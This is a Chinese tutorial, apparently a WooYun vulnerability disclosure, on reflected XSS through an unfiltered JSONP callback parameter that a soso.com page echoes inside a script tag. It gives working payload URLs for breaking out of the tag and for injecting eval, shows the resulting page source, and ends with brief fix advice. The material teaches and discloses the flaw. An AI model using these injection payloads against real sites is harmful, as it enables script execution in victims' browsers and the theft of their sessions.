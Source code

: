 # 2\. 输出在`<script></script>`之间的情况

> [2\. 输出在`<script></script>`之间的情况](http://www.wooyun.org/bugs/wooyun-2010-015959)

## 简要描述

接着上面一个教程，我们继续。这个例子属于第一例的特殊情况，当然也有特殊解法。也属于非常常见的一种情况。

## 详细说明

1\. 我们找到这么一个点，也是输入和输出都未过滤的一个点。相比教程第一例，其特殊之处在于，是输出在了 `<script>[输出]</script>` 之间。

```
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa 
```

如下图：callback 参数未做过滤。 在【查看源代码】下，我们可以看到。

![image](img/Image_005.jpg)

缺陷网页源代码:

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.aaa(_ret);}catch(err){aaa(_ret);}</script> 
```

2\. 碰到这种情况，我们一般有以下解法。

2.1 首先判断，是否过滤了 `<` , `>` , `/` 等符号，

![image](img/Image_006.jpg)

2.2 如果都没有过滤，恭喜你，一般可以直接 XSS 了。代码如下：

```
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa</script><script>alert(1)</script> 
```

原理入下图：

构造 callback 参数后的源代码

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.aaaaaaaaa</script><script>alert(1)</scri pt>(_ret);}catch(err){aaaaaaaaa</script><script>alert(1)</script>(_ret);}</script> 
```

2.3 如果过滤了 `<`, `>`，那么就无法使用上面的办法了。我们接着看

3\. script 代码里的构造。

友情提示：这里可能需要一点点 javascript 的知识才行哦～～ 我们可以如下构造：

```
http://activity.soso.com/common/setParentsInfo.php?callback=eval('alert(1)');void 
```

可以看到，源代码是下面的样子。

![image](img/Image_007.jpg)

也就是说，我们插入的内容，使得这一段 javascript 依然【语法正确】，能够【正确执行】，并且能够执行【我们所插入的 JS 代码】，

这样我们的目的就达到了。 构造后的源代码如下：

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.eval('alert(1)');void(_ret);}catch(err){ eval('alert(1)');void(_ret);}</script> 
```

4\. 这种输出在 JS 代码里的情况十分常见，但是呢？不幸的是，像这样没过滤的情况，却不是很常见。例如： `var a="[输出]"; //` 通常程序员会把 " 过滤掉， 这样的话，一般来说，我们就很难构造。

但是，这并不是说，就一定是不能利用，后面我们会拿腾讯一些【比较有意思】的例子，来进一步说到 这个【输出在 js 里】的情况的～

## 修复方案

这类 XSS 的模型通常是：

```
<script>...[输出]...</script>
<style>...[输出]...</script> 
```

解决方案：

1\. 过滤 `</xxx>` 组合

2\. 针对输出在不同的场景，进行合适的过滤。